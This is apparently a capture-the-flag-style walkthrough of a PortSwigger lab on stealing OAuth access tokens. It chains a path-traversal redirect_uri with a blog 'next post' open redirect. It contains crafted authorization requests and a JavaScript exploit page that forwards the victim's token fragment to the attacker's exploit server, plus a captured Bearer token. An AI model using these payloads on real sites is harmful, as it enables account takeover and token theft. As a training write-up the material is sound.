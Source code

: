 
# Stealing OAuth access tokens via an open redirect

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

Note: You cannot access the admin's API key by simply logging in to their account on the client application.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: wiener:peter.


---------------------------------------------

References: 

- https://portswigger.net/web-security/oauth





![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/1.png)
![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/2.png)

---------------------------------------------

If we change the “redirect_uri” parameter to the url of the exploit server we find it is not possible as it is not part of the registered values:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/3.png)


And we can not provide the parameter twice, so no parameter pollution:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/4.png)



Starting with “localhost” does not work either:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/5.png)


But it is possible to add “../” to the url:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/6.png)


Blogs have a “Next post” button which seems vulnerable to open redirect:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/7.png)


We can change the “path” parameter to anyone we need:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/8.png)


We can use it to redirect to the exploit server:

```
GET /post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/
```



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/9.png)


We can set the “redirect_uri” to “/post/next”:

```
redirect_uri=https://0a5100fc036a387b81e8347900740079.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/
```

```
GET /auth?client_id=oy2ed6shddhvjw8klmsnu&redirect_uri=redirect_uri=https://0a5100fc036a387b81e8347900740079.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/&response_type=token&nonce=1218229424&scope=openid%20profile%20email HTTP/2
``` 



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/10.png)


The previous payload redirects to the exploit server:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/11.png)


And it contains the access token in the url:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/12.png)


The value is not logged because it starts with “#”. 

From the solution I found a way to log the second part after “#”:

```
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```


We can set the “redirect_uri” to redirect to “/exploit” in the exploit server:

```
redirect_uri=https://0a5100fc036a387b81e8347900740079.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/exploit
```

```
GET /auth?client_id=oy2ed6shddhvjw8klmsnu&redirect_uri=https://0a5100fc036a387b81e8347900740079.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/exploit&response_type=token&nonce=328741005&scope=openid%20profile%20email HTTP/2
``` 

We reach /exploit:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/13.png)


And it causes a second redirection:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/14.png)


Now the access token is logged:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/15.png)



Now we will prepare the “/exploit” path so it redirects to “/auth” first and to the exploit server second:

```
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a6500a0036c389681a332430272000a.oauth-server.net/auth?client_id=oy2ed6shddhvjw8klmsnu&redirect_uri=https://0a5100fc036a387b81e8347900740079.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/exploit/&response_type=token&nonce=-1318932807&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```


We get an access token from the victim:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/16.png)


Finally we can use this token to list the user information in “/me”:

```
GET /me HTTP/2
Host: oauth-0a6500a0036c389681a332430272000a.oauth-server.net
...
Authorization: Bearer z-YNsRxiSi76jANt3-GzRzwq65ru3uOA8K3z0w1urIm
```



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/17.png)